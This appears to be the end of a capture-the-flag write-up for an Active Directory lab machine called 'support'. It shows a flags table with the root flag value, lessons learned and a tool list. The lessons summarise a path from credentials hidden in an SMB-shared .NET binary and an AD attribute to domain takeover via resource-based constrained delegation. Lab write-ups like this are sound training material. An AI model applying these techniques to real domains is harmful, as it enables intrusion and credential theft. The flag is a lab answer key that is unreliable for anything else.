

---

## Flags

| Flag | Value |
|---|---|
| `user.txt` | captured on `support`'s desktop |
| `root.txt` | `a83135fdefb8494e66e0da86d797012a` |

---

## Key Takeaways

- **Anonymous SMB shares are still a live foothold vector.** A single non-default share
  hiding one custom binary was enough to unravel LDAP credentials.
- **"Encryption" that ships inside the client binary isn't encryption.** Static XOR keys and
  hardcoded base64 blobs in a decompilable .NET assembly are trivially reversible.
- **AD's `info` attribute is an underused but real credential-hiding spot** — worth checking
  on every user/group during enumeration.
- **GenericAll on a computer object has more than one path to abuse.** When Shadow
  Credentials fails due to a missing Enterprise CA, RBCD is a reliable fallback that only
  needs a default `ms-DS-MachineAccountQuota`.
- **BloodHound pathfinding (not just "Shortest Paths from Owned Objects") is worth running
  explicitly** between a specific starting principal and a specific target — it surfaces the
  exact edge and abuse type needed.

---

## Tools Used

`rustscan` · `nmap` · `smbclient` · `netexec` · `ldapsearch` · `rpcclient` · `ilspycmd`
· `BloodHound CE` (`bloodhound-python`) · `pywhisker` · `PKINITtools` · `Certipy`
· `Impacket` (`addcomputer.py`, `rbcd.py`, `getST.py`, `secretsdump.py`) · `evil-winrm`
